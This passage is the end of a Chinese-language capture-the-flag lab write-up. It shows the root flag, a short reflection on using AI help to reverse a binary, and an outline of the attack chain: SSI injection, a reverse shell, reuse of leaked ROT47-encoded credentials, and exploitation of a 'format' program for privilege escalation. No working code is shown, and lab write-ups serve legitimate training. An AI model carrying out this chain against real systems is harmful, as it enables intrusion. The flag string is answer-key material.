


两个用户都是一样的！！！

获得**Root_Flag**：**flag{root-ef87f4da3c05d13f860a663eba5adac3}**

# 小结

该靶机还是有一定难度的，尤其是**Pwn**的部分（由于接触的少且没有怎么系统的学过，所以几乎都是遇到什么分析什么，难度还是很大的）。但好在有AI的辅助，不过难度也不小（从原先几乎不可能解出 - 费了很大功夫才能解出）

**基本攻击链**：
```bash
通过80端口判断存在SSI注入并尝试
	|
通过SSI注入反弹Shell
	|
找到泄露的凭证（ROT47加密），实现横向移动
	|
提权的枚举，找到（format程序）
	|
对format进行逆向分析（AI辅助）
	|
利用exp进行提权
```